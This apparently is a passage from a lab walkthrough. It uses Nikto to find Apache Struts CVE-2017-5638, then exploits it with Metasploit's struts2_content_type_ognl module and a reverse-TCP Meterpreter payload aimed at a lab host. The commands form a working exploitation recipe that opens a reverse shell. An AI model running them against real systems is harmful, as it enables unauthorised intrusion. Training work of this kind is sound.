 ```bash
+ Root page / redirects to: showcase.action
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'nikto-added-cve-2017-5638' found, with contents: 42
+ /: Site appears vulnerable to the 'strutshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638).
+ /index.action: Site appears vulnerable to the 'strutshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638).
+ /login.action: Site appears vulnerable to the 'strutshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638).
```

Nikto found the `CVE-2017-5638` vulnerability that we can search by this CVE in metasploit and run the exploit accordingly:
```bash
msf5 > search CVE-2017-5638

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_content_type_ognl  2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection


msf5 > use exploit/multi/http/struts2_content_type_ognl
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > set rhosts 10.10.235.203
rhosts => 10.10.235.203
msf5 exploit(multi/http/struts2_content_type_ognl) > set rport 80
rport => 80
msf5 exploit(multi/http/struts2_content_type_ognl) > set targeturi /showcase.action
targeturi => /showcase.action
msf5 exploit(multi/http/struts2_content_type_ognl) > set lhost 10.8.21.42
lhost => 10.8.21.42
msf5 exploit(multi/http/struts2_content_type_ognl) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.8.21.42:4444
[*] Sending stage (3012516 bytes) to 10.10.235.203
```